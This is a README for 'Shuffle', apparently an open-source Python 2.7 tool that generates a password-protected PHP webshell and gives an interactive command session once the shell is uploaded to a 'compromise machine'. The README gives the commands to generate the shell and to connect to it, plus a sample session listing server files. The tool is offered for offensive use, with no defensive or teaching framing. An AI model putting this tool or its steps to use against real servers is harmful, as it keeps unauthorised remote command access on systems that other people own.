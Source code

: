 ![Shuffle Logo](https://raw.githubusercontent.com/matiasmenares/shuffle/master/extras/logo.png)

[![Code Climate](https://codeclimate.com/github/matiasmenares/Shuffle/badges/gpa.svg)](https://codeclimate.com/github/matiasmenares/Shuffle)

### Version
0.1 (Beta)
### Installation

Only you need is Python 2.7

## Getting started
Shuffle 0.1 (Beta) works with Python 2.7 You can run it with:

```sh
$ python shuffle.py -h
```
Command:
  - -g Generate shell
  - -p Setting Password
  - -u Url to connect
  
To create a webshell run:
```sh
$ python shuffle.py -g webshell.php -p 123
```
And Webshell generate in shuffle folder.
```sh
~/shuffle/webshell.php
```
### Connecting
When you upload shell to compromise machine only you need is run shell with:

```sh
$ python shuffle.py -u http://localhost/webshell.php -p 123
```

And wait to establish connection...

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$>
```

Now you can run all command !

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$> ls
app
lib
index.php
localhost@apache[~]$> 

```
to close the conection type exit.

```sh
localhost@apache[~]$> exit
bye :)
$ 
```
## Extras
### Banner
if you want change login banner modify this file:
```sh
~/shuffle/extras/banner.txt
```
License
----

MIT

**Free Software, Hell Yeah!**